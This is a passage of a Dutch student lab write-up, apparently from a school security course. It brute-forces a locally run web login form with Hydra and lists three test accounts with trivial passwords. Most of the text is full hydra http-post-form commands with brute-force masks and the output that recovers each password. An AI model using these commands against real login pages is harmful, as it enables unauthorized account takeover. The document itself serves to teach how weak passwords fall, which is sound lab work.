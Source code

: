 De drie accounts: 
- 123@gmail.com:123
- 1234@1234.nl:1234
- 12345@12345.nl:12345

De eerste heb ik al in de snippit hier boven laten zien. Daarvan is de uitkomst ongeveer 1 minuut. 

#### 4 cijfers. 
Om de vier cijfers zo efficiënt mogelijk te laten lopen moest je wel de `-x` vlag aanpassen. Deze heb ik aangepast naar: `4:4:1`. Het fijne hieraan is dat we vooraf al weten dat het wachtwoord 4 cijfers lang is. 

**3 minuten**
```sh
hydra -l 1234@1234.nl -x 4:4:1 127.0.0.1 -s 5000 http-post-form "/login:email=^USER^&password=^PASS^:Inlog mislukt"
Hydra v9.5-dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-30 02:07:50
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://127.0.0.1:5000/login:email=^USER^&password=^PASS^:Inlog mislukt
[STATUS] 473.00 tries/min, 473 tries in 00:01h, 9527 to do in 00:21h, 16 active
[5000][http-post-form] host: 127.0.0.1   login: 1234@1234.nl   password: 1234
[STATUS] 418.00 tries/min, 1254 tries in 00:03h, 8746 to do in 00:21h, 16 active

```
#### 5 cijfers
Hiervoor moest je weer de `-x` flag aanpassen. Dit had ik aangepast naar `5:5:1`. Hierbij weten natuurlijk weer van te voren dat wachtwoord 5 cijfers lang is.

**30 minuten**
```sh
1sabo@Macbook-Air:~/school/ss$ hydra -l 12345@12345.nl -x 5:5:1 127.0.0.1 -s 5000 http-post-form "/login:email=^USER^&password=^PASS^:Inlog mislukt"
Hydra v9.5-dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-30 02:11:17
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100000 login tries (l:1/p:100000), ~6250 tries per task
[DATA] attacking http-post-form://127.0.0.1:5000/login:email=^USER^&password=^PASS^:Inlog mislukt
[STATUS] 459.00 tries/min, 459 tries in 00:01h, 99541 to do in 03:37h, 16 active
[STATUS] 435.00 tries/min, 1305 tries in 00:03h, 98695 to do in 03:47h, 16 active
[STATUS] 425.43 tries/min, 2978 tries in 00:07h, 97022 to do in 03:49h, 16 active
[STATUS] 423.93 tries/min, 6359 tries in 00:15h, 93641 to do in 03:41h, 16 active
[5000][http-post-form] host: 127.0.0.1   login: 12345@12345.nl   password: 12345

```
